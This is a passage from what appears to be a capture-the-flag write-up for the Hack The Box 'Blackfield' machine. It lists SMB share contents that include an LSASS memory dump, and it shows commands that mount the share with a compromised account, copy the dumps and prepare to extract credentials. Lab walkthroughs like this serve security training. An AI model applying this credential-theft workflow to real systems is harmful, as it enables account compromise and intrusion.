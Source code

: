 ```shell
  ismserv.zip                         A  8810157  Thu May 28 16:26:13 2020
  lsass.zip                           A 41936098  Thu May 28 16:25:08 2020
  mmc.zip                             A 64288607  Thu May 28 16:25:25 2020
  RuntimeBroker.zip                   A 13332174  Thu May 28 16:26:24 2020
  ServerManager.zip                   A 131983313  Thu May 28 16:26:49 2020
  sihost.zip                          A 33141744  Thu May 28 16:27:00 2020
  smartscreen.zip                     A 33756344  Thu May 28 16:27:11 2020
  svchost.zip                         A 14408833  Thu May 28 16:27:19 2020
  taskhostw.zip                       A 34631412  Thu May 28 16:27:30 2020
  winlogon.zip                        A 14255089  Thu May 28 16:27:38 2020
  wlms.zip                            A  4067425  Thu May 28 16:27:44 2020
  WmiPrvSE.zip                        A 18303252  Thu May 28 16:27:53 2020

                5102079 blocks of size 4096. 1688967 blocks available
smb: \> ls tools\
  .                                   D        0  Sun Feb 23 08:39:08 2020
  ..                                  D        0  Sun Feb 23 08:39:08 2020
  sleuthkit-4.8.0-win32               D        0  Sun Feb 23 08:39:03 2020
  sysinternals                        D        0  Sun Feb 23 08:35:25 2020
  volatility                          D        0  Sun Feb 23 08:35:39 2020

                5102079 blocks of size 4096. 1688963 blocks available
```

We can use a CIFS mount to copy over all of the necessary files.

```shell
┌──(thadigus㉿kali)-[~/HTB/Blackfield]
└─$ sudo mkdir /mnt/win_share
[sudo] password for thadigus: 

┌──(thadigus㉿kali)-[~/HTB/Blackfield]
└─$ sudo mount -t cifs -o username=audit2020 //10.10.10.192/forensic /mnt/win_share 
Password for audit2020@//10.10.10.192/forensic: 

┌──(thadigus㉿kali)-[~/HTB/Blackfield]
└─$ mkdir ./forensic_smb
                                                              
┌──(thadigus㉿kali)-[~/HTB/Blackfield]
└─$ cp -r /mnt/win_share/* ./forensic_smb

┌──(thadigus㉿kali)-[~/HTB/Blackfield]
└─$ sudo umount /mnt/win_share                                                     
                                                                                                                                                                                                                
┌──(thadigus㉿kali)-[~/HTB/Blackfield]
└─$ sudo rm -rf /mnt/win_share 
```

#### Analysis of Forensics Share

There is an LSASS dump on the forensics share. This data could be leftover results from a recent penetration test, security testing, or a previous compromise. This type of information should be secured heavily. We can open up this and utilize a tool to dump the information from the LSASS process. The LSASS (Local Security Authority Subsystem Service) is response for local authentication
